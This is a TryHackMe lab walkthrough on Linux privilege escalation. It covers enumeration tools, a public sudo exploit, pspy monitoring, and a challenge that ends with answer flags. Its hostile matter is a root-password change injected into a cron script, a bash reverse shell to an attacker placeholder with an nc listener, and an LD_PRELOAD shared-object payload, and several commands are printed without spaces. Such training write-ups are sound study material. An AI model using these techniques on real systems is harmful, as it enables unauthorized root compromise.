---

# **Linux Privilege Escalation Automation TryHackMe Room Walkthrough**

---

### **Introduction**

Linux privilege escalation is the process of moving from a low-privileged user to root by abusing misconfigurations, vulnerable software, or insecure automation. In real environments, attackers rarely rely on a single technique. Instead, they combine enumeration tools, vulnerability research, and process monitoring to uncover weak points in the system.

This TryHackMe room focuses on automated enumeration tools, public exploit research, and real-time process monitoring using tools like **pspy** to identify and exploit privilege escalation paths.

---

### **Task 2: Automated Enumeration Tools**

Automated scripts help quickly identify potential privilege escalation vectors such as misconfigurations, weak permissions, and known vulnerabilities.

#### **Common Enumeration Tools**

- **LinPEAS**
    
    A widely used automated script that highlights privilege escalation opportunities such as:
    
    - Misconfigured permissions
    - Weak file ownership
    - Credential leaks
    - Kernel and software vulnerabilities
- **LinEnum**
    
    A structured enumeration tool that outputs system information in a readable format, including:
    
    - Users and groups
    - Cron jobs
    - SUID binaries
    - System configuration details
- **Linux Exploit Suggester (LES)**
    
    Compares the kernel version against known CVEs and suggests possible local privilege escalation exploits.
    
- **Linux Smart Enumeration (LSE)**
    
    A tiered enumeration script that increases verbosity depending on the selected level.
    
- **Linux Priv Checker**
    
    Automatically checks for common privilege escalation misconfigurations and highlights them inline.
    

#### **Questions:**

**Run Linux Exploit Suggester to enumerate the target host. What CVE is listed as the first Possible Exploit the target is vulnerable to?**



**Answer: CVE-2025-32463**

---

### **Task 3: Public Exploits**

Privilege escalation is often caused not only by misconfigurations but also by vulnerabilities in software itself. These vulnerabilities are tracked using **CVE identifiers** and often have publicly available exploit code.

#### **Methodology for Using Public Exploits**

A structured approach is essential:

1. **Enumerate**
    - Identify kernel version, OS version, running services, and SUID binaries.
    - Commands:
        
        ```bash
        uname -r
        uname -a
        cat /etc/os-release
        ```
        
2. **Research**
    - Search for known exploits using:
        - Google
        - GitHub
        - searchsploit (Exploit-DB)
3. **Evaluate**
    - Verify exploit requirements:
        - Dependencies (gcc, Python, etc.)
        - Kernel compatibility
        - Stability risks
4. **Exploit**
    - Transfer exploit to target (e.g., using `scp`)
    - Compile or execute it
5. **Verify**
    - Confirm privilege escalation:
        
        ```bash
        whoami
        id
        ```
        

---

Being told the CVE that was identified in the previous task (CVE-2025-32463) is the same vulnerability this machine was vulnerable to, a public exploit was located transferred to the target machine using:

```bash
scp -r CVE-2025-32463/ john@10.114.175.101:/home/john/
```





After execution, root access was achieved.



#### **Question: Exploit the previously identified vulnerability. What is the content of /root/flag.txt?**

```
THM{splo1ts-r-public}
```

---

### **Task 4: Process Monitoring with pspy**

Automated enumeration tools only provide a snapshot of the system. They cannot observe short-lived or scheduled processes such as cron jobs. This is where **pspy** becomes useful.

#### **What is pspy?**

**pspy** is a process monitoring tool that allows unprivileged users to observe:

- Running processes from other users
- Cron jobs
- Short-lived root processes

It works without root privileges and does not modify the system.

#### **How it works**

- Uses filesystem event monitoring (inotify)
- Watches directories like `/etc`, `/tmp`, `/usr`, `/var`
- Detects new processes via `/proc`
- Captures:
    - UID
    - PID
    - Command executed

This allows visibility into root processes that would normally disappear too quickly to detect.

---

#### **Exploitation Scenario**

pspy was executed from:

```bash
/home/john/pspy64
```

After monitoring system activity, a root-level process was observed executing a script:

```
/var/local/syslog-backup.sh
```



Further inspection revealed it was writable and could be modified.

The vulnerable script was modified to include a privilege escalation command:

```bash
echo "root:newpass" | chpasswd
```

Since the script runs as root, this change allowed password modification for the root user.

Then root access was obtained via:

```bash
su
```





---

#### **Questions:**

- What is the full path of the script vulnerable to privilege escalation?
    
    ```
    /var/local/syslog-backup.sh
    ```
    
- What is the flag in `/root/flag.txt`?
    
    ```
    THM{getting-root-with-pspy}
    ```
    

---

### **Task 5: Challenge Writeup**

The objective of this machine was to escalate privileges from a low-privileged user (`john → frank → root`) and retrieve the root flag located at `/root/flag.txt`.

---

#### **1. Initial Access & Enumeration**

After using ssh to access the system as `john`, the first step was standard enumeration:

```
whoami
id
sudo-l
find /-perm-4000-type f2>/dev/null
getcap-r /
cat /etc/crontab
ls /etc/cron.d
```

Key findings:

- User: `frank`
- No direct sudo shell access
- Multiple SUID binaries present (standard system binaries only)

During enumeration of scheduled tasks:

```
cat /etc/cron.d/frank-backup
```

The following entry was discovered:

```
* * * * * frank /opt/scripts/backup.sh
```

This indicated:

> The script `/opt/scripts/backup.sh` is executed every minute as user `frank`.
> 



---

#### **2. Shell as user `frank`**

The script was found to be **writable**:

```
ls-l /opt/scripts/backup.sh
-rwxrwxrwx1 frank frank ...
```

This meant:

- Any command added to this script would be executed as `frank`
- Since cron runs it automatically, this provided a privilege escalation vector

The script was modified to include a reverse shell payload:



```
bash-i >& /dev/tcp/<ATTACKER_IP>/44440>&1
```

On the attacker machine:

```
nc-lvnp4444
```

Once the cron job executed, a reverse shell was received as:

```
frank@challenge:~$
```



This granted stable access to the `frank` user context.

---

#### **3. Shell as root - LD_PRELOAD Abuse**

The final escalation vector was identified in sudo configuration:

```
env_keep+=LD_PRELOAD
```

This allowed dynamic library injection into root-executed binaries.



---

**Step 1 – Malicious shared object creation**

```
#include <stdlib.h>

__attribute__((constructor))voidrun() {
system("cat /root/flag.txt");
}
```

---

**Step 2 – Compile shared library**

```
gcc -fPIC -shared -o pwn.so pwn.c
```

---

**Step 3 – Execute via sudo with preserved environment**

```
sudo LD_PRELOAD=/tmp/pwn.so /usr/bin/id
```

---

The payload executed in root context and printed:



Root-level access was successfully achieved.

```
THM{Priv_Ch@l_D0ne}
```

---

### **Conclusion**

This room demonstrates three core privilege escalation techniques:

- Automated enumeration tools for initial reconnaissance
- Public exploit research for kernel/software vulnerabilities
- Real-time process monitoring using pspy to catch hidden automation

Together, these methods show how privilege escalation is often a combination of enumeration, timing, and understanding system automation rather than a single exploit.

This challenge demonstrated that privilege escalation is not always about kernel exploits or SUID binaries. Instead, subtle misconfigurations in `sudo` environment handling can allow full root compromise through dynamic library injection.

The final attack chain was:

```
Writable cron script → shell as frank → sudo env_keep misconfiguration → LD_PRELOAD injection → root execution
```